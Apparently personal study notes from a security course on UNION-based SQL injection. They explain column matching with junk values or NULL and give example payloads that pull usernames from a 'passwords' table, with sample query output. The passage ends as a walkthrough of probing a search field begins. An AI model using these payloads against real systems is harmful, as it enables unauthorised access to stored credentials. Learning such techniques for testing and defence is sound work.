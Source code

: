     - The syntax is correct
        
    - The injection returns useful data alongside placeholder junk values.
    
>[!Note] When filling other columns with junk data, we must ensure that the data type matches the columns data type, otherwise the query will return an error. For the sake of simplicity, we will use numbers as our junk data, which will also become handy for tracking our payloads positions, as we will discuss later.
---
	
>[!Tip ] For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.
	
- The `products` table has two columns in the above example, so we have to `UNION` with two columns.
	
- If we only wanted to get one column 'e.g. `username`', we have to do `username, 2`, such that we have the same number of columns.
	
```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```
	
- If we had more columns in the table of the original query, we would have to add more numbers to create the remaining required columns. 
	
- For example, if the original query used `SELECT` on a table with four columns, our `UNION` injection would be.
	
```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```
	
```mysql
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
-- Our wanted output of the query is found at the first column of the second row, while the numbers filled the remaining columns.
```
 ---
## Union Injection 
- Consider the following:
	-
![[Pasted image 20250522125910.png]]
	
- We see a potential SQL injection in the search parameters. We apply the SQLi Discovery steps by injecting a single quote (`'`), and we do get an error:
	
![[Pasted image 20250522125946.png]]
	